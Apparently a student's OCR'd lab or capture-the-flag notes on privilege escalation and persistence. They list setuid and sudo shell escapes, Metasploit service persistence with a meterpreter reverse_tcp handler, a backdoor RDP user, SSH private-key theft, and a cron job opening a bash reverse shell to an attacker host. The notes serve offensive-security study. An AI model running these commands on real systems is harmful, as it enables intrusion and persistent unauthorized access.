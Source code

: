 - There is no specific hint given in this challenge, so start with finding setuid program approach.
- find / -user root -perm -4000 -exec ls -ldb {} \;
- sudo -l

- Sudo Privileges
- cat /etc/passwd
- sudo -l
- sudo man ls
- !/bin/bash
- cat flag

## Persistence
### Persistence Via Services On Windows require eliveted permission 
- nmap
- use set run
- search persistence_service
- run THis paylload run in evry 5sec on target it generats a msfvenom payload. that runs on win in every 5sec.
- terminates all the session and restart msfconsole
- set multi/handler
- set payload windows/meterpreter/reverse_tcp
- set lhost and lport and run
- BOOM! you got the sessions
- 
### Persistence via RDP OR Backdoor OR New User
- search badblue
- getuid
- sysinfo and migrate
- run getgui -e -u <newUser> -p <password>
- new terminal
- xfreerdp /u:<user> /p:<password> /v:<target-ip>

### Linux Persistence Via SSH Key
- ssh student@<target-ip>
- cd .ssh/
- ls
- cat id_rsa
- exit
- scp student@<target-ip>:~/.ssh/id_rsa
- chmod 400 id_rsa
- now login with student and rm wait
- ssh -i id_Rsa student@<target-ip>
- proper path is
 - generate a ssh key pair
 - keep the private key on to the system and transfer the publick key to the target system.
 - /home/.ssh/Autorized_keys
 -  
### Persistence via a cron Jobs
- ssh student@<target-ip>
- cat /etc/cron*
- echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp<attacker-ip>/<listing-port> 0>&1'" > cron
- cat cron
- crontab -i cron
- crontab -l
- now remove rm wait
- nc -lvnp 1234
- ls -al
- cat flag.txt
- 